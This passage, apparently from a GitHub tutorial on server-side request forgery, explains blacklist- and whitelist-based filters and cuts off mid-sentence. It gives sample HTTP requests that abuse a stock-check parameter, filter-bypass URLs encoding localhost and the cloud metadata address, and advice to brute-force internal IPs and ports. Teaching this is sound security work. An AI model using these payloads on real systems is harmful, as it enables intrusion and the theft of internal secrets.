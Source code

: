    
   3) Now, as an attacker mindset we can bruteforce the interal ip to find admin panel in internal range.
   4) To get the correct internal IP we can bruteforce the value of `x` to the numbers from `1-255` , we can also do the same method with ports.
---
### SSRF with blacklist-based input filter # 

#### What is Blacklist ??
   - Blacklisting is a security technique that involves creating a list of known bad/malicious input to blocking or filtering out input that matches the items in the list.
 
1) Consider an E-commerce application fetches stock of the product from internal services, and the request look like this..

       POST /product/stock HTTP/2
       Host: subdomain.target.com
       Cookie: session=Cbk1v0cQskhHLqkG19kybRHR2griby7p
       Content-Length: 96
       ...
       ...
       stockApi=http://192.168.0.1:8080/product/stock/check?productId=2`

  2) Now, This time The developer has deployed some weak anti-SSRF defenses which we can bypass by using some of the bypass techniques/payloads.

    http://2130706433/       // 127.0.0.1
    http://2852039166/       // 169.254.169.254
    http://[::]           // 127.0.0.1
    http://0.0.0.0/          // locahost

 3) There are tons of bypassing techniques out there on github and other platforms, we need to apply them by see the behaviour of application.

4) So now if we have to access to internal secret_keys, request will look like this...
      
       POST /product/stock HTTP/2
       Host: subdomain.target.com
       Cookie: session=WAh9012TO9pIKXpFpR6ZPHUR9ko8ppAy
       Content-Length: 56
       ...
       ...
       stockApi=http://127.1/Secret_keys
---
### SSRF with Whitelist-based input filter # 

#### What is White-listing ??
   - Whitelisting is a security technique that involves creating a list of known good, safe input and only allowing input that matches the items in the list.

1) Consider an E-commerce application fetches stock of the product from internal services, and the request look like 
       this..
